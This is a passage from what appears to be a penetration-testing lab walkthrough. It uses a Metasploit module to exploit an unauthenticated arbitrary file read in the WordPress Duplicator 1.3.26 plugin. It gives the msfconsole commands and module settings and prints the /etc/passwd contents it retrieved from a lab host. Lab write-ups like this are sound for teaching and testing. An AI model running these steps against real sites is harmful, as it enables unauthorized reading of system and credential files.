 #### Step 2: Metasploit Exploitation

Excellent! We found multiple exploits for Duplicator 1.3.26, including an "Unauthenticated Arbitrary File Read" vulnerability that has a Metasploit module. This is perfect since we don't need authentication. Let's use Metasploit to exploit this vulnerability.

Launch Metasploit and use the Duplicator file read module:

```bash
msfconsole
search duplicator
use auxiliary/scanner/http/wp_duplicator_file_read
```

Configure the module:

```bash
set rhosts 192.90.71.4
show options
```

**Module Configuration:**
```
Name       Current Setting  Required  Description
----       ---------------  --------  -----------
DEPTH      5                yes       Traversal Depth (to reach the root folder)
FILEPATH   /etc/passwd      yes       The path to the file to read
RHOSTS     192.90.71.4      yes       The target host(s)
RPORT      80               yes       The target port (TCP)
TARGETURI  /                yes       The base path to the wordpress application
```

#### Step 3: File System Enumeration

Now that we have arbitrary file read capability, let's start by reading the `/etc/passwd` file to enumerate all users on the system. This will help us understand potential targets and may reveal interesting usernames.

First, read `/etc/passwd` to enumerate users:

```bash
run
```

**Results:**
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:101:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
mysql:x:104:105:MySQL Server,,,:/nonexistent:/bin/false
```